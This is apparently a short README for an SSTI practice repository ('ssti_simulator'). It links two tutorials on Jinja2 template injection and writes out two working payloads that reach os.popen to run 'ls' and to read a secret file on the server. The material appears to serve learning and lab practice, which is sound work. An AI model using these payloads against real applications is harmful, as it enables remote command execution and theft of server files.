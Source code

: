 # ssti_simulator

## Remote Code Execution through SSTI
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}

{{ request.application.__globals__.__builtins__.__import__('os').popen('cat secrete.txt').read() }}

## Other Attack, don' know what to call it
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

